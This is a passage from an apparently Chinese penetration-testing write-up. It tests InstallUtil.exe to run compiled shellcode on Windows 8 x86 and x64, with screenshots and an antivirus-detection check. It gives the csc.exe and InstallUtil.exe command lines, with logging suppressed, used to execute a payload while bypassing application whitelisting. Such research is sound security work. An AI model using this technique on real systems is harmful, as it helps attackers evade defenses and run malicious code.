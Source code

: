 32位系统下执行发生异常

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/728241d89add8bc643c1bf9cf503eada08530de4.jpg)

**（2）**利用InstallUtil.exe直接执行shellcode

使用.net 4.0中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe  /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/a1cf5f5fc411f659c7b819517a5cded33365ca0b.jpg)

测试win8x86exeshell.exe查杀情况，360干的漂亮，查杀，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/13b8792795e61b0bcda15934adb35d6a59759145.jpg)

4、win8 x64
----------

默认.net环境，支持4.0，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/0b4f91dad95c6e6793f7ce8c6ac0f01b41c31a28.jpg)

**（1）**利用InstallUtil.exe执行pe文件

.net 4.0成功执行

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/18dd55195e0e824467574252c3227798cada8995.jpg)

**（2）**利用InstallUtil.exe直接执行shellcode

使用.net 4.0 x64中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/cfbf25df012a97f717665d358993946c0dc5c31a.jpg)
